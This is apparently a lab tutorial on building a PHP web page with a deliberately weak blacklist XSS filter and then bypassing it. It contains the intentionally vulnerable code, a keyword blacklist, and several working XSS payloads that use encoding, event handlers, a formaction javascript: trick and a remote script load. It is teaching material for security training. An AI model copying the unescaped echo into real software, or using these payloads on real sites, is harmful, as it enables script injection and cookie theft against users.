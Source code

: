 # Write A Web Application With Insecure XSS Filters
An insecure XSS filter occurs when an application fails to properly validate user input, allowing attackers to inject malicious code into web pages. Some developers use blacklists to block dangerous strings like `<script` or `onload=` but often miss edge cases, leaving the application vulnerable to XSS attacks.

## References
- [OWASP - XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) by OWASP
- [How-To - Disable Browser Security Features](https://www.postexplo.com/forum/security-in-general/terms/610-how-to-disable-browser-security-features) by Resheph on PosteXplo
- [XSS Filter Evasion and WAF Bypassing Tactics](https://n3t-hunt3r.gitbook.io/pentest-book) by n3t_hunt3r
- [Bypassing Signature-Based XSS Filters: Modifying HTML](https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-html) by PortSwigger

## Tasks
- Write a simple web application containing multiple input fields that are vulnerable to cross-site scripting
- Apply insecure filtering mechanisms to these input fields, such as a blacklist that attempts to block commonly known dangerous XSS keywords
- Develop a blacklist containing at least 30 dangerous XSS keywords (e.g., `<script>`, `onload=`, `alert(`, etc.) that you plan to use to try and protect the input fields
- Use various XSS techniques, such as HTML encoding, JavaScript obfuscation, and bypassing blacklist filters, to inject malicious JavaScript code into the input fields
- Verify that the injected malicious JavaScript code is executed on the web application's frontend, demonstrating the bypass of the insecure XSS filters

## Practical Approach
1. Create a new PHP file named `vulnerable_xss.php` in the htdocs folder in XAMPP 
2. PHP for vulnerable web application:
   ```
   <?php
   // XSS Blacklist filters
   $blacklist = [
       "<script>", "</script>", "<img>", "<svg>", "onload=", "onerror=",
       "alert(", "prompt(", "confirm(", "javascript:", "document.cookie",
       "window.location", "eval(", "setTimeout(", "setInterval(",
       "innerHTML", "outerHTML", "src=", "href=", "<iframe>", "</iframe>",
       "expression(", "vbscript:", "style=", "onmouseover=", "onfocus=",
       "onblur=", "onclick=", "onkeypress=", "onkeyup=", "onkeydown="
   ];
   
   // Function to check for blacklisted words
   function is_blacklisted($input, $blacklist) {
       // Weak blacklisting: no decoding, no normalization
       foreach ($blacklist as $word) {
           // Case-insensitive match for raw strings
           if (strpos($input, $word) !== false) {
               return true;
           }
       }
       return false;
   }
   
   // Handle form submission
   if ($_SERVER['REQUEST_METHOD'] === 'POST') {
       $user_input = $_POST['user_input'];
       
       // Check if input contains any blacklisted words
       if (is_blacklisted($user_input, $blacklist)) {
           echo "Input rejected: contains blacklisted content.";
       } else {
           // Directly echo input into the page (vulnerable to XSS)
           echo $user_input;
       }
   }
   ?>
   
   <!DOCTYPE html>
   <html lang="en">
   <head>
       <meta charset="UTF-8">
       <meta name="viewport" content="width=device-width, initial-scale=1.0">
       <title>Insecure XSS Filter</title>
   </head>
   <body>
       <h1>Vulnerable XSS Web App</h1>
       <form action="" method="POST">
           <label for="user_input">Enter some text:</label><br>
           <input type="text" id="user_input" name="user_input" size="100"><br><br>
           <input type="submit" value="Submit">
       </form>
   </body>
   </html>
   ```
3. Despite the blacklist, the following XSS techniques could bypass the filtering
   - HTML encoding: Some browsers might interpret encoded characters that resemble dangerous inputs. For instance:
     Using `&#x3C;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E;` instead of `<script>`
   - Event Handlers in Other Elements:
     Example: `<img src="x" onerror="alert('XSS')">` might bypass filters if `onerror=` is not blacklisted correctly
   - Obfuscation Techniques:
     Using techniques such as breaking keywords (e.g., `java + script:`) to bypass string-based filters
4. To test the vulnerability, use the following payloads and ensure that the injected JavaScript successfully executes on the frontend (e.g., showing an alert box) and different bypass techniques successfully trigger the XSS
   - SVG element with onload event handler
     ```
     <svg ONLOAD="&#x61;&#x6c;&#x65;&#x72;&#x74;(1)">
     ```
     ![image](https://github.com/user-attachments/assets/4d0326ff-3b2d-455d-8f7e-649674a17fbe)

   - IMG onerror and JavaScript Alert Encode
     ```
      <img SRC=x ONERROR="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
     ```
     ![image](https://github.com/user-attachments/assets/addbf297-5b8a-46fb-ad76-1ff1e18890a7)

   - Basic XSS Test Without Filter Evasion
     ```
     <SCRIPT SRC=https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js></SCRIPT>
     ```
     ![image](https://github.com/user-attachments/assets/cc3768ef-2b63-4be5-9c4b-f5f57daae5f5)

   - URL string evasion
     ```
     <A HREF="http://www.google.com./">XSS</A>
     ```
     ![image](https://github.com/user-attachments/assets/b4c7d151-c097-4746-b0b0-e2d91e55041a)

   - Trigger JavaScript execution using formaction
     ```
     <form><button formaction=JAVASCRIPT&colon;ALERT(1)>CLICKME
     ```
     ![image](https://github.com/user-attachments/assets/38dace16-5342-41c3-887d-03e5bbaf30f2)

   - Iframe event based mayhem
     ```
     <IFRAME SRC=# ONMOUSEOVER="ALERT(DOCUMENT.COOKIE)"></IFRAME>
     ```
     ![image](https://github.com/user-attachments/assets/57778a91-0fd0-4c16-a9ff-c2af05156e60) 

